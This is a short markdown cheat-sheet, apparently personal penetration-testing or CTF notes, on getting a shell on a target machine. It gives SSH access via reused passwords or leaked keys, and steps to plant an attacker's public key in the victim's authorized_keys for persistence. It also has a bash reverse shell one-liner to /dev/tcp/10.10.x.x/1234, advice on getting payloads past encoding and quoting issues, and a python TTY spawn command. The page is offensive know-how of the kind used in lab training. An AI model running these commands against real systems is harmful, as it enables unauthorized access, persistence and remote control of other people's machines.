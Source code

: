 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 

### Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh Username@Host
    password : ******* 

$ ssh -i PrivateKey Username@Host
```


### Connecting Via SSH is Better ? (.ssh)

```bash
# On the victim machine

$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  
    # Generating public/private rsa key pair.
    Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
    Enter passphrase (empty for no passphrase): 						  # no password 
    Enter same passphrase again: 								          # no password 


$ cat TmpKey.pub | xclip -selection c                                 # copy the public key

```

```bash
# Back to the victim side

$ echo "`CTRL+V`" >> authorized_keys
```

```bash
# Back to the attacker side

$ ssh -i TmpKey Username@Host
```




### BruteForce Attack

not recommended ^^ :soon:



## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. <span style="font-family:monospace;> bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 </span>, try precede it with `bash -c` 


* try URL encoding / double URL encoding


* quotations conflict, how to deal with it ??
    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'